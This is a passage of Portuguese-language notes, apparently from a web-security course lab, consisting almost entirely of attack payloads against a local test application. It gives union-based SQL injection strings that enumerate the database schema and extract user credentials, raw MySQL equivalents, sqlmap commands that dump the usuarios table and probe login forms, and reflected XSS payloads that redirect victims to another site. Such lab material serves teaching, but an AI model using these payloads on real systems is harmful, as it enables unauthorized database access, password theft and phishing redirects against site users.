     ?search=-1' union select 1,user(),version(),database(),5'
    ?search=-1' union select 1,table_name,3,4,5 from information_schema.tables %23
    ?search=-1' union select 1,table_name,3,4,5 from information_schema.tables where table_schema="exemplo" %23
    	- Ou: -1' union select 1,table_name,3,4,5 from information_schema.tables where table_schema=database() %23
    ?search=-1' union select 1,column_name,3,4,5 from information_schema.columns where table_schema="exemplo" and table_name="usuarios" %23
    ?search=-1' union select 1,codigo,usuario,senha,tipo from usuarios %23
    ?search=-1' union select 1,concat(usuario,':',senha),3,4,5 from usuarios %23
```
Obs. 1: "%23" refere-se ao caractere "#" codificado (https://www.w3schools.com/tags/ref_urlencode.ASP), utilizado para comentário no MySQL (assim como "--", por exemplo). Para realização do SQLi via campo de pesquisa (em vez de modificações na URL), utilizar "#" em vez de "%23" (ex.: -1' union select 1,concat(usuario,':',senha),3,4,5 from usuarios #)

Obs. 2: Consultas equivalentes ("or" e "union"):
```
	mysql -uroot -pp@ssw0rd
	use exemplo;
	search=-1' union select 1,user(),version(),4,5';
	select * from cursos where nome like "%-1%" union select 1;
	select * from cursos where nome like "%-1%" union select 1,2;
	select * from cursos where nome like "%-1%" union select 1,2,3,4,5;
	select * from cursos where nome like "%-1%" union select 1,user(),3,4,5;
	select * from cursos where nome like "%-1%" union select 1,user(),version(),4,5;
	select * from cursos where nome like "%-1%" union select 1,user(),version(),database(),5;
	select * from cursos where nome like "%-1%" union select 1,table_name,3,4,5 from information_schema.tables;
	select * from cursos where nome like "%-1%" union select 1,table_name,3,4,5 from information_schema.tables where table_schema="exemplo";
	select * from cursos where nome like "%-1%" union select 1,column_name,3,4,5 from information_schema.columns where table_schema="exemplo" and table_name="usuarios";
	select * from cursos where nome like "%-1%" union select 1,codigo,usuario,senha,tipo from usuarios;
	select * from cursos where nome like "%-1%" union select 1,concat(usuario,':',senha),3,4,5 from usuarios;
   ``` 
  SQLi automatizado:
	sqlmap -h
	sqlmap -hh
	sqlmap -u "http://192.168.10.2/app/publico/pesquisa.php?search=1" --current-db
	sqlmap -u "http://192.168.10.2/app/publico/pesquisa.php?search=1" --users
	sqlmap -u "http://192.168.10.2/app/publico/pesquisa.php?search=1" -D exemplo --tables
	sqlmap -u "http://192.168.10.2/app/publico/pesquisa.php?search=1" -D exemplo -T usuarios --columns
	sqlmap -u "http://192.168.10.2/app/publico/pesquisa.php?search=1" -D exemplo -T usuarios -C 'usuario,senha' --dump
	sqlmap -u "http://192.168.10.2/app/restrito/login.php" --forms

- Cross-Site Scripting (XSS)

  http://192.168.10.2/app/restrito/login.php/"><script>alert("XSS")</script>
  http://192.168.10.2/app/restrito/login.php/"><script>window.location.href="https://suap.ifsp.edu.br/"</script>

  http://192.168.10.2/app/restrito/login.php/"><script>window.location.href="https://suap.ifsp.edu.br/"</script>
  http://192.168.10.2/app/publico/pesquisa.php/"><script>alert("Autentique-se para realizar a pesquisa");window.location.href="https://suap.ifsp.edu.br/"</script>
  http://192.168.10.2/app/publico/pesquisa.php, pesquisa por:
    
    <script>alert("XSS")</script>
    
   ```